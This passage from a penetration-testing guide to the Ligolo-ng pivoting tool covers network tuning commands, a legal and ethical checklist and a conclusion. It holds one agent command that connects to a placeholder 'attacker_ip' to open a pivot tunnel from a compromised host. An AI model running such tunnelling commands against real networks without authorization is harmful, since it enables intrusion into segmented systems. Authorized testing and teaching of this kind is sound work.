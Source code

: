 ## Performance Optimization

### Tuning Network Parameters

For better performance on large file transfers:

```bash
# Increase MTU for better throughput
sudo ip link set ligolo mtu 1500

# On Linux systems, optimize TCP parameters
sudo sysctl -w net.ipv4.tcp_window_scaling=1
sudo sysctl -w net.core.rmem_max=16777216
sudo sysctl -w net.core.wmem_max=16777216
```

### Optimizing for Different Network Conditions

For high-latency networks:

```bash
# Adjust agent connection parameters
./agent -connect attacker_ip:11601 -ignore-cert -retry 5 -retry-interval 10
```

## Legal and Ethical Considerations

When using Ligolo-ng for penetration testing, always ensure:

1. You have explicit written permission to test the target networks
2. Your scope clearly defines which network segments you can access
3. Your client is aware of pivoting techniques being used
4. Activities comply with relevant laws and regulations
5. Data accessed through pivots is handled according to agreed confidentiality terms

Document all pivoting activities for your report, including:
- Network segments discovered and accessed
- Methods used to establish tunnels
- Sensitive systems accessed through pivots
- Recommendations for network segmentation improvements

## Conclusion

Ligolo-ng provides penetration testers with powerful capabilities for network pivoting and access to segmented networks. By mastering these techniques, you can effectively evaluate your client's network security posture, identify weaknesses in network segmentation, and demonstrate the potential impact of initial compromise.

Remember that the tool's transparent network access requires responsible use and careful documentation of all testing activities. Always operate within scope and with proper authorization.

## Additional Resources
